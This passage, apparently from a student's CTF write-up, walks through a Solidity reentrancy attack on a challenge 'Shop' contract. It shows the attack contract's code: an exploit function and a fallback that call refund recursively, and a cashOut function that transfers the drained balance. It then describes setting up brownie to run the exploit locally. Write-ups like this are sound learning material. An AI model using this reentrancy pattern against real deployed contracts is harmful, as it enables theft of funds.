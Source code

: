 then we create the `attack` contract and create a constructor that stores a reference to the Shop given as an argument to the constructor
```
contract attack {
    Shop public shop;
    uint public target = 0;

    // initialize the contract with the address of the Shop contract
    constructor(address payable addr) public {
        shop = Shop(addr);
    }
```

we then initiate the attack in the `exploit` function, all it does is refund the item
and we also create the fallback function to create the recursive loop which also only refunds the item
```
// start the exploit by calling the refund function of the Shop contract for reentrancy attack
    function exploit() public payable {
        shop.refund(target, 1);
    }

 // fallback function
    fallback() external payable {
        shop.refund(target, 1);
    }
```

and finally we create a function so we can transfer the money gotten from the exploit, which is stored in the smart contract, to us so we can buy the flag
```
// withdraw the contract's balance to a specified address
    function cashOut(address payable addr) external {
        addr.transfer(address(this).balance);
    }
```

to run this i decided to do it locally using brownie as i could not find any resources on how to deploy it online at that moment and i was running out of time until my parents told me to go to sleep

to do this i installed brownie in a python venv so it wouldn't mess up my system (hopefully) 
i then, in an empty folder ran `brownie init` and it created a brownie project, into which i placed the Shop and Attack contracts so the folder structure looked like this

![file structure](assets/img/pages/writeups/n00bz-ctf/fileStructure.png)
